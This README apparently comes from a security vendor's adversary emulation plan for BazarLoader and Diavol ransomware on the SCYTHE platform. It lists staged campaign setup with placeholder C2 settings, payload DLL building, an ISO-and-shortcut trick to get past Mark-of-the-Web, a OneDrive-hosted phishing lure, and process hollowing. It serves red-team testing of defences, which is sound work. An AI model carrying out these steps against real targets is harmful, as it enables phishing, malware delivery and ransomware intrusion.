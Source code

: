 # BazarLoader - Adversary Emulation Plan

BazarLoader is used as part of the initial access portion of multiple threat groups. The threat focuses on bypassing defenses and is commonly changing TTPs. In this threat, we cover a number of different examples observed in the wild.

## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol

## BazarLoader Excel to WMIC to PowerShell to rundll32.exe
This CTI comes from https://app.any.run/tasks/c5dc698b-8e86-4e50-8b32-d8f45f7538b3/

### Stage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `BazarLoaderStage0` with HTTPS
3. Import from Existing Threat: BazarLoaderStage0
4. Modify the process hollowing command to match the location where Microsoft Excel is installed in the target system
5. Launch the Campaign
6. Start Stage 1 and 2 before execution

### Stage1
1. Create a new campaign `BazarLoaderStage1` with HTTPS
2. Import from Existing Threat: BazarLoaderStage1
3. Launch the Campaign
4. Save the 64-bit EXE as `BazarLoaderStage1.exe`
5. Upload to VFS:/shared/BazarLoader/BazarLoaderStage1.exe

### Stage 2
1. Create a new campaign `BazarLoaderStage2` with HTTPS
2. Add any automation you would like to execute
3. Launch the Campaign
4. Download the DLL with entry-point set to `setscreen`
5. Save the DLL as `87764675478.dll`
6. Upload the DLL to VFS:/shared/BazarLoader/87764675478.dll
